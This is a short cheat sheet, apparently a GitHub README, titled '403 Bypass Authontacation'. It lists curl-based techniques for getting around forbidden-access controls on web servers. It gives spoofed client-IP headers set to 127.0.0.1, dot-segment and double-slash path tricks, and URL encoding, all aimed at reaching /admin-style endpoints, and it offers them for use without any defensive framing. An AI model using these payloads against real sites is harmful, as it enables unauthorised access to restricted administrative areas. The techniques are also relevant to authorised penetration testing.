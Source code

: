 # 403 Bypass Authontacation

# Method 1————————————-

```
use curl headers 
-H "X-Forwarded-For: 127.0.0.1" (fack IP) Some websites block based on your real IP.
-H "X-Client-IP: 127.0.0.1"
-H "X-Real-IP: 127.0.0.1"
-H "Forwarded: for=127.0.0.1"
-H "True-Client-IP: 127.0.0.1"
```

# Method 2————————————-

```
use .(dot) between directory 
curl "https://127.0.0.1/secure/./admin"
curl "https://127.0.0.1/secure/../admin"
```

# Method 3—————————————

```
this will hepl to bypass directorys btw endpoint
curl "http://127.0.0.1///admin"

also tru url encoding to bypass 
curl "http://127.0.0.1/hiddde%2f"
```